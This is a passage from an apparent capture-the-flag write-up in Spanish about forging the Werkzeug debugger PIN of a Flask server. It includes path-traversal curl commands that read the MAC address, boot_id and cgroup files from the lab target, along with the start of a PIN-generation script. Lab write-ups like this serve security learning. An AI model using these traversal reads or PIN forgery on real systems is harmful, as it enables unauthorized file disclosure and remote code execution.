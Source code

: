 * El username es el usuario que está corriendo Flask. Sabemos que es **root**.
* **modname** y **getaddr** ya están **bien**.
* getaddr es el **path absoluto** de app.py en el directorio de flask:

<img src="/photos/2022-10-08-OpenSource-WriteUp/flaskpath.png" alt="drawing"  />  

Del error de la web, podemos ver que el path es **/usr/local/lib/python3.10/site-packages/flask/app.py**
* uuid.getnode() es la **MAC** en decimal de la máquina víctima. La podemos encontrar en la ruta /sys/class/net/eth0/address de la máquina vícitma. Podemos hacer un *curl http://10.10.11.164/uploads/..//sys/class/net/eth0/address --path-as-is* para obtenerla. Es la **02:42:ac:11:00:06**. En decimal: **2485377892358**.
* get_machine_id(), es la concatenación del valor que se encuentra en la ruta /proc/sys/kernel/random/boot_id y /proc/self/cgroup. El primer valor se obtiene con el comando *curl http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --path-as-is --ignore-content-length*. Es **f754c8cd-b0ac-40d2-9b10-adbc2a79449d**. El segundo con el comando *curl http://10.10.11.164/uploads/..//proc/self/cgroup --path-as-is --ignore-content-length*. Es **7e03804a70dc28c78c52fb8b3ed16ebe3749831c01f85f875792ad512969e696**.
* Por último, debemos de tener en cuenta si Werkzeug utiliza **sha1** o **MD5** como método de encriptado. Este campo dependerá de la versión de Werkzeug. Como el ping generado por MD5 no me ha funcionado, probaré con **sha1**.

Teniendo todos estos datos en cuenta el *script* quedaría:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',## username
    'flask.app',## modname
    'Flask',## getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' ## getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892358',## str(uuid.getnode()),  /sys/class/net/ens33/address
    'f754c8cd-b0ac-40d2-9b10-adbc2a79449d7e03804a70dc28c78c52fb8b3ed16ebe3749831c01f85f875792ad512969e696'## get_machine_id(), /etc/machine-id
]

```